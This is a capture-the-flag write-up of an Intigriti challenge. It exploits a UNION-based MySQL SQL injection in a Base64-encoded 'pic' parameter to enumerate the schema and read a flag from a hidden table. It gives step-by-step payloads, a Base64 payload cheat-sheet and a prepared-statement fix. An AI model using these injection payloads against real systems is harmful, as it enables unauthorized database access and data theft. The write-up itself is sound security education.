








# Intigriti September 2026 Challenge (0926) — "Critter Gallery" Write-up

**Challenge:** Critter Gallery
**Author:** khanhdlq
**Target:** `https://challenge-0926.challenges.intigriti.io/challenge.php`
**Bug class:** UNION-based SQL Injection (MySQL) — data exfiltration
**Researcher:** Muhammad Zaid ([@sudo-zaid](https://github.com/sudo-zaid))

**Flag:** `INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}`

---

## TL;DR

The `pic` parameter is Base64-decoded and concatenated, **without any sanitisation**, into a single-quoted MySQL `WHERE name = '...'` clause. That is a textbook UNION-based SQL injection. The query returns a single column, so I dump the database, discover a hidden `secret_vault` table, and read the flag from it.

It looks like an XSS challenge, but the one reflected sink (`description`) is run through `htmlspecialchars(…, ENT_QUOTES)`, so the intended and only working path is **SQLi → read the secret table**, not XSS (see §7).

One-line exploit:

```
https://challenge-0926.challenges.intigriti.io/challenge.php?pic=eCcgVU5JT04gU0VMRUNUIG5vdGUgRlJPTSBzZWNyZXRfdmF1bHQtLSAt
```

---

## 1. Recon

The landing page loads the real app in an iframe pointing at `/challenge.php`. Each gallery tile links to `?pic=<base64>`:

| `pic` | Base64 decodes to |
|-------|-------------------|
| `Zm94` | `fox` |
| `bGlvbg==` | `lion` |
| `cGFuZGE=` | `panda` |

So `pic` is just a **Base64-encoded animal name**. Picking one renders a detail card: emoji, name, and a description.



The Base64 wrapper is the first hint. It lets us push **raw bytes** (quotes, backslashes) to the backend without URL/HTTP mangling — exactly what you'd want if the decoded value ends up somewhere byte-sensitive like a SQL string.

---

## 2. Finding the injection

I Base64-encoded a single quote `'` (`pic=Jw==`). The page comes back **completely blank** — the classic signature of an unhandled SQL syntax error with `display_errors` turned off.



Probing one character at a time, exactly two inputs break the page, and their "doubled" versions are fine:

| Decoded input | Result |
|---------------|--------|
| `'`  | blank (error) |
| `\`  | blank (error) |
| `''` | renders fine |
| `\\` | renders fine |

Single quote and backslash breaking, while doubled ones are safe, is the fingerprint of a value sitting **inside a single-quoted SQL string literal**.

---

## 3. Confirming SQL with MySQL type-juggling (the "aha")

Instead of a word, I sent `'+'` (`pic=Jysn`). The card now lists the description of **every** animal at once.


Here's why that is decisive. Our value lands in:

```sql
WHERE name = '<input>'
```

so `'+'` turns the clause into:

```sql
WHERE name = ''+''
```

In MySQL, `''+''` is **arithmetic**, not string concatenation: `0 + 0 = 0`. Comparing the string column `name` to a number forces every non-numeric name to cast to `0`, so `name = 0` is **TRUE for every row**. This "match-all" behaviour only happens in a real SQL engine — it confirms we are influencing the query boolean logic, and rules out plain reflection/XSS.

---

## 4. Column count

- `zzz' ORDER BY 1-- -` → renders fine
- `zzz' ORDER BY 2-- -` → blank (error)

So the `SELECT` returns exactly **one column**.




A UNION with one column drops our value straight into the description sink:

```
zzz' UNION SELECT 1-- -
```



Working injection template (decoded):

```
zzz' UNION SELECT <payload>-- -
```

---

## 5. Fingerprint & schema enumeration

**Version + current database:**

```
zzz' UNION SELECT concat(version(),0x20,database())-- -
→ 8.0.46 critter_gallery
```



**Tables in the current database:**

```
zzz' UNION SELECT group_concat(table_name)
     FROM information_schema.tables
     WHERE table_schema=database()-- -
→ animals,secret_vault
```



`animals` is the gallery data; `secret_vault` (columns `id, note`) is clearly where the loot lives.

---

## 6. Extracting the flag

```
x' UNION SELECT note FROM secret_vault-- -
```

Base64-encoded for `pic`:

```
eCcgVU5JT04gU0VMRUNUIG5vdGUgRlJPTSBzZWNyZXRfdmF1bHQtLSAt
```

Final URL:

```
https://challenge-0926.challenges.intigriti.io/challenge.php?pic=eCcgVU5JT04gU0VMRUNUIG5vdGUgRlJPTSBzZWNyZXRfdmF1bHQtLSAt
```



**Flag:** `INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}`

---

## 7. Why this is not XSS

The description block ends with a `<br>` that is **appended by the template**, which tempts you into trying `UNION SELECT ''`. I tested it, and the value comes back HTML-encoded:

```
UNION SELECT '<b>x</b>'   →   &lt;b&gt;x&lt;/b&gt;
UNION SELECT 0x223c...    →   &quot;&lt;img src…
```

So the sink is `htmlspecialchars($description, ENT_QUOTES)` — `<`, `>`, `"`, `'`, `&` are all neutralised, and there is **no other reflection** anywhere in the response (the `name` in the `<h2>` is encoded the same way). The description therefore cannot execute script. The challenge is solved through SQL injection reading a secret table — no self-XSS, no MiTM.

---

## 8. Root cause & remediation

**Root cause** — user input concatenated into SQL:

```php
// vulnerable (conceptually)
$name = base64_decode($_GET['pic']);
$sql  = "SELECT description FROM animals WHERE name = '$name'";
```

Base64 only obfuscates the input; it is not a security control.

**Fix** — use a parameterised / prepared statement:

```php
$stmt = $pdo->prepare('SELECT description FROM animals WHERE name = ?');
$stmt->execute([$name]);
```

Additional hardening:
- Keep application secrets out of a database reachable by the app's own DB user (least privilege / separate store).
- Return generic error pages; never let a syntax error blank the response.
- Continue HTML-encoding on output (already done well here).

---

## Payload cheat-sheet

| Goal | Decoded payload | `pic` (Base64) |
|------|-----------------|----------------|
| Trigger error | `'` | `Jw==` |
| Match-all (type juggle) | `'+'` | `Jysn` |
| Column count | `zzz' ORDER BY 2-- -` | `enp6JyBPUkRFUiBCWSAyLS0gLQ==` |
| UNION works | `zzz' UNION SELECT 1-- -` | `enp6JyBVTklPTiBTRUxFQ1QgMS0tIC0=` |
| Version + DB | `zzz' UNION SELECT concat(version(),0x20,database())-- -` | `enp6JyBVTklPTiBTRUxFQ1QgY29uY2F0KHZlcnNpb24oKSwweDIwLGRhdGFiYXNlKCkpLS0gLQ==` |
| Tables | `zzz' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()-- -` | `enp6JyBVTklPTiBTRUxFQ1QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIEZST00gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyBXSEVSRSB0YWJsZV9zY2hlbWE9ZGF0YWJhc2UoKS0tIC0=` |
| **Flag** | `x' UNION SELECT note FROM secret_vault-- -` | `eCcgVU5JT04gU0VMRUNUIG5vdGUgRlJPTSBzZWNyZXRfdmF1bHQtLSAt` |

> Make your own: open DevTools console and run `btoa("x' UNION SELECT note FROM secret_vault-- -")`, then append the result to `?pic=`.
